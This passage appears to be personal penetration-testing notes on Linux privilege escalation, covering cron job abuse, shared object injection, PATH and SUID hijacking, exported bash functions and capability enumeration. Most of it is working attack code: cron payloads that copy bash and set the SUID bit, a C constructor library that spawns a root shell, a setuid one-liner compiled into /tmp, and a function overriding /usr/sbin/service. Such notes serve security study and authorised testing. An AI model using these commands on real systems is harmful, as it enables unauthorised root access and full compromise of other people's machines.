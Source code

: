 #### Scheduled Tasks
Take note of where the PATH is if the full PATH isn't declared
`grep "CRON" /var/log/syslog`
`ls -lah /etc/cron*` 
`cat /etc/crontab`
- especially for processes running as root
- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > $cronScript`
	- then you can execute /tmp bash because of the `+s`

#### Shared Object Injection
`strace $binary 2>&1` - strace intercepts and records the system calls which are called by a process and the signals which are received by a process.
- then try to overwrite anything that shows up as (No such file or directory)
- may need a .c file to exploit, EX:

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Then: `gcc -shared -fPIC -o $outputLocation $exploitLocation.c`
-`gcc -shared -fPIC -nostartfiles -o file file.c`
- note that you can change this to `$file.so`

#### Binary Symlink Escalation
Vulnerability with nginx, an http and reverse proxy server
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

#### Escalation via Environmental Variables
Run the find SUID command, then run strings on the binary if you don't know what it does
If it starts a service from the PATH, you can `print $PATH`
- If it doesn't have a direct PATH:
	- one line c command: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
	- so the one liner is actually: `int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}`
	- then `gcc /tmp/service.c -o /tmp/service`
	- then: `export PATH=/tmp:$PATH`
	- This means that when you call a service, the system will check /tmp first as it is the start of the PATH
- If it does have a direct PATH (like /usr/sbin/service)
	- `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
	- `export -f /usr/sbin/service` - 

#### Capabilities
`getcap -r / 2>/dev/null` - this will show up during linpeas, but it's still good to know 
